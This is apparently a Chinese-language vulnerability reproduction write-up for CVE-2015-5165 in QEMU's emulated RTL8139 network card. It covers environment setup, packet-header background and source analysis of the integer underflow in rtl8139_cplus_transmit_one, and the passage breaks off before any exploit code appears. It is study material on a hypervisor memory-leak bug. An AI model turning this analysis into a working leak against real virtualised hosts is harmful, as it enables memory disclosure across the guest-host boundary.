







# CVE-2015-5165漏洞复现------QENU信息泄露漏洞

## 环境搭建

**qemu**

qemu搭建比较容易，下载好对应版本的压缩包之后，执行下面的命令即可：

```
tar -xvf qemu-xxxx.tar.xz
cd qemu-xxxx
./configure --enable-kvm --enable-debug --target-list=x86_64-softmmu --disable-werror
make -j 4
make install
```

执行完命令之后，使用下面的命令检测是不是刚刚安装的版本：

```
qemu-system-x86_64 --version

output:
	QEMU emulator version 2.3.0, Copyright (c) 2003-2008 Fabrice Bellard
```

CVE-2015-5165这个漏洞存在于qemu2.3.0之前的版本，所以我们下载2.3.0之前的版本即可

**系统镜像**

镜像我这里选择的是ubuntu16的server版本，并且是32位的，首先使用下面的命令创建出一个空的镜像：

```
qemu-img create -f qcow2 XXXX.img 20G
```

然后使用下面的命令把Ubuntu镜像安装进刚刚创建出来的镜像中：

```
qemu-system-x86_64 -m 1G -hda XXXX.img -cdrom XXXX.iso -enable-kvm
```

然后就会弹出来一个窗口，在窗口里面就和平时一样的安装系统一样，安装完之后，以后就可以使用如下命令来启动了：

```
qemu-system-x86_64 --enable-kvm -m 1G -hda XXXX.img
```

如果想使用ssh连接这个虚拟机的话就是用如下命令来启动：

```
qemu-system-x86_64 --enable-kvm -m 1G -hda XXXX.img -net user,hostfwd=tcp::22222-:22 -net nic
```

因为漏洞出在了rtl8139网卡上，所以我们启动的时候需要把rtl8139网卡加上去，命令如下：

```
qemu-system-x86_64 --enable-kvm -m 1G -hda XXXX.img -netdev user,id=t0, -device rtl8139,netdev=t0,id=nic0 -net user,hostfwd=tcp::22222-:22 -net nic
```

## 前置知识

由于涉及到了网卡，而且产生漏洞原因主要是因为对数据包解析的时候没有对数据包长度进行检测，导致了一个溢出，所以我们需要先对网卡和数据包相关知识有一定的了解

**OSI（Open Systems Interconnection）将网络协议分为七层**，从上往下依次为：

- 应用层
- 表示层
- 会话层
- 传输层
- 网络层
- 数据链路层
- 物理层

**因特网协议栈共有五层**：

1.**应用层**，是网络应用程序及其应用层协议存留的地方。因特网的应用层包括许多协议，常见的有HTTP(它为web文档提供了请求和传送)、SMTP(它提供了电子邮件报文的传输)和FTP(它提供了两个端系统之间的文件传送)。

2.**传输层**，负责为信源和信宿提供应用程序**进程**（包括同一终端上的不同进程）间的数据传输服务，这一层上主要定义了两个传输协议，传输控制协议即TCP和用户数据报协议UDP。

3.**网络层**，负责将数据报独立地从信源发送到信宿，主要解决路由选择、拥塞控制和网络互联等问题。

4.**数据链路层**，负责将IP数据报封装成合适在物理网络上传输的帧格式并传输，或将从物理网络接收到的帧解封，取出IP数据报交给网络层。

5.**物理层**，负责将**比特流**在结点间传输，即负责物理传输。该层的协议既与链路有关也与传输介质有关。

**以太网帧（Ethernet Frame）在数据链路层传输，格式参考下图中的灰色部分：**



**Preamble**：前导码，7个字节，用于数据传输过程中的双方发送、接收的速率的同步

**SFD**：帧开始符，1个字节，表明下一个字节开始是真实数据（目的MAC地址）

**dst MAC**：目的MAC地址，6个字节，指明帧的接受者

**src MAC**：源MAC地址，6个字节，指明帧的发送者

**Length / Type**：

- 如果值小于等于 `1500` ，则表示 Payload 的长度
- 否则表示 Payload 数据所使用的协议，比如 `0x0800` 表示 IP 协议（这里指 IPv4）

**Length**：长度，2个字节，指明该帧数据字段的长度，但不代表数据字段长度能够达到（2^16）字节

**Type**：类型，2个字节，指明帧中数据的协议类型，比如常见的IPv4中ip协议采用0x0800

**Data and Pad**：数据与填充，46~1500个字节，包含了上层协议传递下来的数据，如果加入数据字段后帧长度不够64字节，会在数据字段加入“填充”至达到64字节

**FCS**：帧校验序列，4个字节，对接收网卡（主要是检测Data and Pad字段）提供判断是否传输错误的一种方法，如果发现错误，丢弃此帧。目前最为流行的用于FCS的算法是循环冗余校验（cyclic redundancy check –**CRC**）

**Payload 的 MTU（Maximum Transmission Unit）为 `1500` 字节，当数据超出 MTU 时需要进行分片处理**

**IP 数据包（这里指 IPv4）在网络层传输，格式参考下图 ：**



**Version**：版本，4位，用来表明IP协议实现的版本号，当前一般为IPv4，即0100，IPv6的为0110。这个字段确保可能运行不同IP版本的的设备之间的兼容性

**IHL**：报头长度，4位，以32比特的字来定义IP首部的长度，包括可选项。若该字段的值是5，即5*32=160比特=20字节。此字段最大值为60（15*32/8=60）字节
**TOS**：服务类型，8位，用于携带提供服务质量特征信息的字段，服务类型字段声明了数据报被网络系统传输时可以被怎样处理。其中前3比特为优先权子字段（Precedence，现已被忽略，各种终端都不采用）。第8比特保留未用。第4至第7比特分别代表延迟、吞吐量、可靠性和花费。当它们取值为1时分别代表要求最小时延、最大吞吐量、最高可靠性和最小费用。这4比特的服务类型中只能置其中1比特为1。可以全为0，若全为0则表示一般服务。大多数情况下该TOS会被忽略

**Total Length**：总长度，16位，指明整个数据报的长度，按字节为计算。最大长度为65535（2^16=65536）字节

**Identification**：标识，16位，用来唯一地标识主机发送的每一份数据报。IP软件会在存储器中维持一个计数器，每产生一个数据段，计数器就加1，并将此值赋给标识字段。但这个“标识”并不是序号，因为IP是无连接服务，数据报不存在按序接收的问题。如数据报由于超过网络的MTU而必须分片时，这个标识字段的值就被复制到所有的数据报的标识字段中。相同的标识字段的值使分片后各数据报片最后能正确的重装成为原来的数据报

**Flags**：标志，3位，分别是（RF, DF, MF），目前只有DF, MF有效。DF（don't fragment），置为0时表示可以分段，置为1是不能被分段；MF（more fragment），置为0时表示该数据段为最后一个数据段，置为1时表示后面还有被分割分段

**Fragment offset**：段偏移量，13位，指出较长的分组在分段后，某段在原分组的相对位置。也就是说相对用户字段的起点，该片从何处开始。段偏移以**8个字节**（有3位被flags占据）为偏移单位。这就是，每个分片的长度一定是8字节（64位）的整数倍

**Time to live**：生存期（TTL），8位，用来设置数据报最多可以经过的路由器数。由发送数据的源主机设置，通常为32、64、128等。每经过一个路由器，其值减1，直到0时该数据报被丢弃

**Protcol**：协议，8位，指明ip数据字段中的数据采用上层什么协议封装的。常见的有ICMP（1）、IGMP（2）、TCP（6）、UDP（17）

**Header Checksum**：头部校验和，16位，填充根据IP头部计算得到的校验和码。计算方法是：对头部中每个16比特进行二进制反码求和，但不和涉及头部后的数据字段

**Source Address**：源ip地址，32位，如（192.168.1.2）

**Destination Address**：目的ip地址，32位，如（192.168.1.3）

**Option**：选项，n*32位。用来定义一些可选项：如记录路径、时间戳等。但这些选项很少被使用，同时并不是所有主机和路由器都支持这些选项。可选项字段的长度必须是32比特的整数倍，如果不足，必须填充0以达到此长度要求。根据IHL可以得到option的长度

**Data**：数据，不定长度，但受限于数据报的最大长度（65535）。这是在数据报中要传输的数据。它是一个完整的较高层报文或报文的一个分片，此时 IP Header 的长度为20字节，Options 字段的长度为0字节

**TCP 报文在传输层传输，格式参考下图：**



TCP（Transmission Control Protocol 传输控制协议）是一种面向连接的、可靠的、基于字节流的传输层通信协议。当应用层向TCP层发送用于网间传输的、用8位字节表示的数据流，TCP则把数据流分割成适当长度的报文段，最大传输段大小（MSS）通常受该计算机连接的网络的数据链路层的最大传送单元（MTU）限制。之后TCP把数据包传给IP层，由它来通过网络将包传送给接收端实体的TCP层。

**src port**：源端口，2个字节，是一个大于1023的16位数字，由基于TCP应用程序的用户进程随机选择

**dst port**：目的端口，2个字节，指明接收者所用的端口号，一般由应用程序来指定

**Sequence number**：顺序号，4个字节，用来标识从 TCP 源端向 TCP 目的端发送的数据字节流，它表示在这个报文段中的**第一个数据字节**的顺序号。如果将字节流看作在两个应用程序间的单向流动，则 TCP 用顺序号对每个字节进行计数。序号是 32bit 的无符号数，**序号到达 (2^32) － 1 后又从 0 开始。**当建立一个新的连接时， SYN 标志变 1 ，顺序号字段包含由这个主机选择的该连接的初始顺序号 ISN （ Initial Sequence Number ）

**Acknowledgement number**：确认号，4个字节，包含发送确认的一端**所期望收到**的下一个顺序号。因此，确认序号应当是上次已成功收到数据字节顺序号加 1 。只有 ACK 标志为 1 时确认序号字段才有效

**Offset**：报头长度，4位，给出报头中 32bit 字的数目。需要这个值是因为任选字段的长度是可变的。这个字段占 4bit ， 即TCP 最多有 60（15*4） 字节的首部

**Resrvd**：保留区域，6位，保留给将来使用，目前必须置为 0 

**Control Flags**（6位）控制位包括

- URG：为 1 表示紧急指针有效，为 0 则忽略紧急指针值
- ACK：为 1 表示确认号有效，为 0 表示报文中不包含确认信息，忽略确认号字段
- PSH：为 1 表示是带有 PUSH 标志的数据，指示接收方应该尽快将这个报文段交给应用层而不用等待缓冲区装满
- RST：用于复位由于主机崩溃或其他原因而出现错误的连接。它还可以用于拒绝非法的报文段和拒绝连接请求。一般情况下，如果收到一个 RST 为 1 的报文，那么一定发生了某些问题
- SYN：同步序号，为 1 表示连接请求，用于建立连接和使顺序号同步（ synchronize ）
- FIN：用于释放连接，为 1 表示发送方已经没有数据发送了，即关闭本方数据流

**Window Size**：窗口大小，2个字节，表示**从确认号开始**，本报文的源方可以接收的字节数，即源方接收窗口大小。窗口大小是一个 16bit 字段，因而窗口大小最大为 65535（2^16 - 1）

**Checksum**：校验和，2个字节，对整个的 TCP 报文段**（包括 TCP 头部和 TCP 数据）**，以 16 位字进行计算所得。这是一个强制性的字段，要求由发送端计算和存储，并由接收端进行验证

**Urgent Pointer**：紧急指针，2个字节，是一个正的偏移量，和顺序号字段中的值相加表示紧急数据最后一个字节的序号。 TCP 的紧急方式是发送端向另一端发送紧急数据的一种方式。 只有当URG 标志置 1 时紧急指针才有效

**Option and Pad**：选项和填充，n*4字节，常见的可选字段是最长报文大小 MSS(Maximum Segment Size) 。每个连接方通常都在通信的第一个报文段（为建立连接而设置 SYN 标志的那个段）中指明这个选项，它指明本端所能接收的最大长度的报文段。选项长度不一定是 32 位字的整数倍，所以要加填充位，使得报头长度成为整字数

**Data**：数据，不定长度，为上层协议封装好的数据

**和 IP 数据包一样，TCP 报文头部的长度由 `Header Length` 字段指明，最大可以是 `0b1111 * 4 = 60` 字节，在 `Options` 字段为空的情况下头部长度为 `20` 字节。**

它们三个的关系图如下所示(发送数据包的时候)：



------

前面了解了数据包相关的知识之后，我们就需要了解一下关于网卡的相关知识

QEMU 模拟的 RTL8139 网卡在发送和接收数据时，内部代码分支的走向很大程度上依赖于网卡的状态，对应的结构体为 `RTL8139State` （位于文件 `hw\net\rtl8139.c` 中）：

```
typedef struct RTL8139State {
    /*< private >*/
    PCIDevice parent_obj;
    /*< public >*/

    uint8_t phys[8]; /* mac address */
    uint8_t mult[8]; /* multicast mask array */

    uint32_t TxStatus[4]; /* TxStatus0 in C mode*/ /* also DTCCR[0] and DTCCR[1] in C+ mode */
    uint32_t TxAddr[4];   /* TxAddr0 */
    uint32_t RxBuf;       /* Receive buffer */
    uint32_t RxBufferSize;/* internal variable, receive ring buffer size in C mode */
    uint32_t RxBufPtr;
    uint32_t RxBufAddr;

    uint16_t IntrStatus;
    uint16_t IntrMask;

    uint32_t TxConfig;
    uint32_t RxConfig;
    uint32_t RxMissed;

    uint16_t CSCR;

    uint8_t  Cfg9346;
    uint8_t  Config0;
    uint8_t  Config1;
    uint8_t  Config3;
    uint8_t  Config4;
    uint8_t  Config5;

    uint8_t  clock_enabled;
    uint8_t  bChipCmdState;

    uint16_t MultiIntr;

    uint16_t BasicModeCtrl;
    uint16_t BasicModeStatus;
    uint16_t NWayAdvert;
    uint16_t NWayLPAR;
    uint16_t NWayExpansion;

    uint16_t CpCmd;
    uint8_t  TxThresh;

    NICState *nic;
    NICConf conf;

    /* C ring mode */
    uint32_t   currTxDesc;

    /* C+ mode */
    uint32_t   cplus_enabled;

    uint32_t   currCPlusRxDesc;
    uint32_t   currCPlusTxDesc;

    uint32_t   RxRingAddrLO;
    uint32_t   RxRingAddrHI;

    EEprom9346 eeprom;

    uint32_t   TCTR;
    uint32_t   TimerInt;
    int64_t    TCTR_base;

    /* Tally counters */
    RTL8139TallyCounters tally_counters;

    /* Non-persistent data */
    uint8_t   *cplus_txbuffer;
    int        cplus_txbuffer_len;
    int        cplus_txbuffer_offset;

    /* PCI interrupt timer */
    QEMUTimer *timer;

    MemoryRegion bar_io;
    MemoryRegion bar_mem;

    /* Support migration to/from old versions */
    int rtl8139_mmio_io_addr_dummy;
} RTL8139State;
```

`RTL8139State` 结构体中的许多字段实际上就是 RTL8139 网卡内部的寄存器，关于这些寄存器的描述，可以参考厂商 Realtek 提供的 Datasheet 手册，下图为RTL8139 网卡在 C+ 模式下的寄存器介绍：

```
        +---------------------------+----------------------------+
0x00    |           MAC0            |            MAR0            |
        +---------------------------+----------------------------+
0x10    |                       TxStatus0                        |
        +--------------------------------------------------------+
0x20    |                        TxAddr0                         |
        +-------------------+-------+----------------------------+
0x30    |        RxBuf      |ChipCmd|                            |
        +-------------+------+------+----------------------------+
0x40    |   TxConfig  |  RxConfig   |            ...             |
        +-------------+-------------+----------------------------+
        |                                                        |
        |             skipping irrelevant registers              |
        |                                                        |
        +---------------------------+--+------+------------------+
0xd0    |           ...             |  |TxPoll|      ...         |
        +-------+------+------------+--+------+--+---------------+
0xe0    | CpCmd |  ... |RxRingAddrLO|RxRingAddrHI|    ...        |
        +-------+------+------------+------------+---------------+
```

- TxConfig：发送数据相关的配置参数
- RxConfig：接收数据相关的配置参数
- CpCmd：C+ 模式相关配置参数，比如：
  - CplusRxEnd 表示启用接收
  - CplusTxEnd 表示启用发送
- TxAddr0：Tx descriptors table 相关的物理内存地址
  - 0x20 ~ 0x27：Transmit Normal Priority Descriptors Start Address
  - 0x28 ~ 0x2F：Transmit High Priority Descriptors Start Address
- RxRingAddrLO：Rx descriptors table 物理内存地址低 32 位
- RxRingAddrHI：Rx descriptors table 物理内存地址高 32 位
- TxPoll：让网卡检查 Tx descriptors

关于 `Descriptor`(**Tx缓冲区是网卡的发送数据缓冲区，而Rx缓冲区则是接收数据缓冲区。Tx表以及Rx表为一个16字节结构体大小的数组，该表中的`Descriptor`包含缓冲区的具体位置)** 的定义，同样可以参考厂商 Realtek 提供的 Datasheet 手册，下图为 `Transmit Descriptor` 的定义：



在qemu中对应的结构体如下所示：

```
struct rtl8139_desc {
        uint32_t dw0;
        uint32_t dw1;
        uint32_t buf_lo;
        uint32_t buf_hi;
};
```

其中offset0对应dw0，offset4对应dw1，offset8对应buf_lo，offset12对应buf_hi，dw0中包含一些标志位，buf_lo和buf_hi表示Tx/Rx缓冲的物理内存地址的低32位和高32位，这些地址指向存储要发送/接收的包的缓冲区，必须与页面大小对齐：

## 漏洞分析

漏洞代码出在了发送数据包部分的rtl8139_cplus_transmit_one函数，函数对应主要导致漏洞的代码如下：

```
static int rtl8139_cplus_transmit_one(RTL8139State *s)
{
	..............................
	
	if (txdw0 & (CP_TX_IPCS | CP_TX_UDPCS | CP_TX_TCPCS | CP_TX_LGSEN))
    {
        DPRINTF("+++ C+ mode offloaded task checksum\n");

        /* ip packet header */
        //ip数据包头部指针
        ip_header *ip = NULL;
        //ip数据包头部长度
        int hlen = 0;
        //ip数据包对应的协议
        uint8_t  ip_protocol = 0;
        //ip数据包对应的数据长度
        uint16_t ip_data_len = 0;

        //以太网帧数据部分的指针
        uint8_t *eth_payload_data = NULL;
        //以太网帧的长度
        size_t   eth_payload_len  = 0;

        //saved_buffer指向以太网帧,对应上面的结构,可以发现偏移为12的地方就是Length / Type
        int proto = be16_to_cpu(*(uint16_t *)(saved_buffer + 12));
        if (proto == ETH_P_IP)
        {
            DPRINTF("+++ C+ mode has IP packet\n");

            /* not aligned */
            //payload的数据部分
            eth_payload_data = saved_buffer + ETH_HLEN;
            //payload的长度部分
            eth_payload_len  = saved_size   - ETH_HLEN;

            //传送的数据包部分
            ip = (ip_header*)eth_payload_data;

            //检测是不是ipv4
            if (IP_HEADER_VERSION(ip) != IP_HEADER_VERSION_4) {
                DPRINTF("+++ C+ mode packet has bad IP version %d "
                "expected %d\n", IP_HEADER_VERSION(ip),
                IP_HEADER_VERSION_4);
                ip = NULL;
            } else {			//计算ip数据包部分的长度(不包含头部)
                hlen = IP_HEADER_LENGTH(ip);
                ip_protocol = ip->ip_p;
                /*
                当ip->ip_len<hlen的时候就发生一个溢出，导致ip_data_len是一个特别大的数
                */
                ip_data_len = be16_to_cpu(ip->ip_len) - hlen;
            }
        }
    ..............................
}
```

主要出现问题的代码在第27-38行，其中`ip_data_len = be16_to_cpu(ip->ip_len) - hlen;`没有对`hlen`和`ip->len`进行检测，如果`ip->len`的值小于20**(hlen指的是header length也就是ip头长度，一般情况都为20。然后ip->len指的是ip数据包的总长度)**，那么就会减出一个负值。但是咱们可以看到`be16_to_cpu(ip->ip_len)`这个语句，所以对应的会把ip->len转换成uint16_t类型，也就是无符号类型，那么对应负数就是一个很大的值。这里就产生了一个溢出。

在后面发送数据包的时候如果数据包的长度过长就会进行分片的操作，分片的操作就需要使用到ip_data_len，对应代码如下：

```
if ((txdw0 & CP_TX_LGSEN) && ip_protocol == IP_PROTO_TCP)
{
    int large_send_mss = (txdw0 >> 16) & CP_TC_LGSEN_MSS_MASK;

    DPRINTF("+++ C+ mode offloaded task TSO MTU=%d IP data %d "
        "frame data %d specified MSS=%d\n", ETH_MTU,
        ip_data_len, saved_size - ETH_HLEN, large_send_mss);

    int tcp_send_offset = 0;
    int send_count = 0;

    /* maximum IP header length is 60 bytes */
    uint8_t saved_ip_header[60];

    /* save IP header template; data area is used in tcp checksum calculation */
    memcpy(saved_ip_header, eth_payload_data, hlen);

    /* a placeholder for checksum calculation routine in tcp case */
    uint8_t *data_to_checksum     = eth_payload_data + hlen - 12;
    //                    size_t   data_to_checksum_len = eth_payload_len  - hlen + 12;

    /* pointer to TCP header */
    tcp_header *p_tcp_hdr = (tcp_header*)(eth_payload_data + hlen);

    int tcp_hlen = TCP_HEADER_DATA_OFFSET(p_tcp_hdr);

    /* ETH_MTU = ip header len + tcp header len + payload */
    /*
    注意这里可以看到这里使用了ip_data_len来计算tcp_data_len
    */
    int tcp_data_len = ip_data_len - tcp_hlen;
    int tcp_chunk_size = ETH_MTU - hlen - tcp_hlen;

    DPRINTF("+++ C+ mode TSO IP data len %d TCP hlen %d TCP "
        "data len %d TCP chunk size %d\n", ip_data_len,
        tcp_hlen, tcp_data_len, tcp_chunk_size);

    /* note the cycle below overwrites IP header data,
       but restores it from saved_ip_header before sending packet */

